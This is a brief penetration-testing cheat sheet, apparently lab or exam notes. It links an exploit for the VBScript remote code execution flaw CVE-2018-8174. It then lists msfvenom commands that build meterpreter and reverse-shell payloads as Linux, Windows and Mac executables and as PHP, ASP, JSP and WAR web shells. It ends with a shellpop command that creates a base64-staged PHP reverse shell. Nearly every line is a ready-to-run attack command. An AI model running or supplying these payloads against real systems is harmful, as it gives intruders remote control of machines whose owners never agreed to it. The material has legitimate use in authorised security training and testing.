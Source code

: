 ## VBscript Remote Code Execution
https://github.com/Yt1g3r/CVE-2018-8174_EXP

# Creating Metasploit Payloads

	List payloads
	msfvenom -l

## Binaries

	Linux
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

	Windows
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

	Mac
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho


## Web Payloads

### msfvenom

	PHP
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

	ASP
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f asp > shell.asp

	JSP
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

	WAR
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Shellpop

#### Linux PHP

Use shellpop to create a reverse shell with a python stager

    # shellpop --payload linux/reverse/tcp/php --host tun0 --port 4444 --handler --base64 --stager http
